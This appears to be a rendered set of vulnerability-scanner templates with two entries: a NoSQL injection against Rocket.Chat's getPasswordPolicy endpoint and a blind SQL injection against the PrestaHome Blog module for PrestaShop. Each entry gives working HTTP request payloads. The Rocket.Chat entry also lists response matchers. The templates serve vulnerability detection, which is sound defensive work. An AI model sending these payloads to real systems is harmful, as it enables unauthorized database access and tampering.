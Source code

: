 # Rocket.Chat <=3.13 - NoSQL Injection
## Description
- Rocket.Chat 3.11, 3.12 and 3.13 contains a NoSQL injection vulnerability which allows unauthenticated access to an API endpoint. An attacker can possibly obtain sensitive information from a database, modify data, and/or execute unauthorized administrative operations in the context of the affected site.
- severity - critical
- tags - rocketchat,nosqli,packetstorm,vulhub,hackerone,cve,cve2021
## Requests
### Step - 1
```
POST /api/v1/method.callAnon/getPasswordPolicy HTTP/1.1
Host: {{Hostname}}
Content-Type: application/json

{"message": "{\"msg\":\"method\", \"method\": \"getPasswordPolicy\", \"params\": [{\"token\": {\"$regex\": \"^{{randstr}}\"}}] }"}
```
### Matchers

**Type - word**
- part - body
- words
    1. [error-invalid-user]
    2. "success":true
- condition - and

**Type - word**
- part - header
- words
    1. application/json

**Type - status**
- status
    1. 200

---
# PrestaHome Blog for PrestaShop <1.7.8 - SQL Injection
## Description
- PrestaHome Blog for PrestaShop prior to version 1.7.8 is vulnerable to a SQL injection (blind) via the sb_category parameter.
- severity - high
- tags - cve,cve2021,prestashop,prestahome,sqli,cms
## Requests
### Step - 1
```
GET /module/ph_simpleblog/list?sb_category=')%20OR%20true--%20- HTTP/1.1
Host: {{Hostname}}

```
### Step - 2
```
GET /module/ph_simpleblog/list?sb_category=')%20AND%20false--%20- HTTP/1.1
Host: {{Hostname}}

```